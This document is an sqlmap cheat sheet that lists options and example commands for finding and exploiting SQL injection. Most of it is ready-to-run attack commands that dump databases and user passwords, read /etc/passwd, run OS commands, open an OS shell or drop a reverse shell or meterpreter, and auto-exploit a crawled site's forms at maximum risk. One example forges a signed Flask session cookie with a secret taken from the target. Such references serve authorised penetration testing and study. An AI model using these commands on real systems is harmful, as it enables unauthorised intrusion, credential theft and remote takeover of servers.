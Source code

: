 # SQLmapCheatSheet



## Basic arguments for SQLmap
Generic ->
-  -u "<URL>" 
-  -p "<PARAM TO TEST>" 
-  --user-agent=SQLMAP 
-  --random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges


DB data
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


Injection place
From BurpSuite/ZAP capture
Capture the request and create a req.txt file!
[sqlmap -r req.txt --current-user]

GET Request Injection
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id

POST Request Injection
sqlmap -u "http://example.com" --data "username=*&password=*"


Injections in Headers and other HTTP Methods
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
#The injection is located at the '*'





Indicate string when injection is successful
--string="string_showed_when_TRUE" 


Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



Shell
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



Read File
--file-read=/etc/passwd


Crawl a website with SQLmap and auto-exploit ->
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms


Second Order Injection
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs


Set a suffix
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


Prefix
python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
sqlmap -r r.txt -p id --not-string ridiculous --batch

